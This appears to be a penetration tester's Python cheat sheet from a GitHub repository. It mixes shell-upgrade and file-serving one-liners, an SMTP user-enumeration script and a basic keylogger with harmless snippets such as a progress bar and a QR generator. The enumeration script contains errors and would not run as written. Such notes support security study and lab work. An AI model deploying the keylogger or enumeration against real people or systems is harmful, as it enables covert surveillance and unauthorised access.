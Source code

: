 # Python3

**[Back to Command-Center](https://github.com/codetorok/command-center/blob/master/README.md)**

## One liners and quick scripts

* install requirements: `sudo python3 -m pip install -r requirements.txt `
* to spawn a shell: `python3 -c 'import pty;pty.spawn("/bin/bash")'`
* webservers: `python3 -m http.server 8080`
* if webserver is picked up by the firewall use ftp server: `python3 -m pyftpdlib -p 21 --write` and if you don't have it get it first with: `pip3 install pyftpdlib` and to log in just use the IP address of your ftp server: `ftp <ftp server IP>`

## Enumerating users / smtp

```
#!/usr/bin/python

import socket
import sys

#Create a Socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#Connect to the socket
connect = s.connect(('10.11.1.11', 25))
#Recieve the banner
banner = s.recv(1024)
#VRFY a user
s.send('vrfy ' + SYS.ARGV[1] + '\R\N')
print result
#Close the socket
s.close()
```

## keylogger (basic)

```
from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "keylogs.txt"), \
	level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```

## printing and checking a usage form and switches (Python3)

```
if len(sys.argv) == 1:
    print("USAGE: python3 the_sys_module.py <code name>")
    print("No arguments, exiting...")
    sys.exit(9)
if sys.argv[1] == "tellmemore":
    print("Code name accepted..., exiting with exit code 0.")
else:
    print("Wrong code name, exiting with exit code 3.")
```

## progress bar (Python3)

```
for i in range(0, 51):
    time.sleep(0.1)
    sys.stdout.write("{} [{}{}]\r".format(i, '#' * i, "." * (50 - i)))
    sys.stdout.flush()
sys.stdout.write("\n")

```

## QRCode generator (Python3)

```
import qrcode

input_data = "https://google.com"
qr = qrcode.QRCode(version=1, box_size=10, border=5)
qr.add_data(input_data)
qr.make(fit=True)
img = qr.make_image(fill='black', back_color='white')
img.save('qrcode001.png')
```

## Python3 FTP Server

* Simple to use: `python3 -m pyftpdlib` and just make sure you have pyftpdlib installed with pip3.

## SMB Server - Impacket

* `smbserver.py SPITFIRE ./`

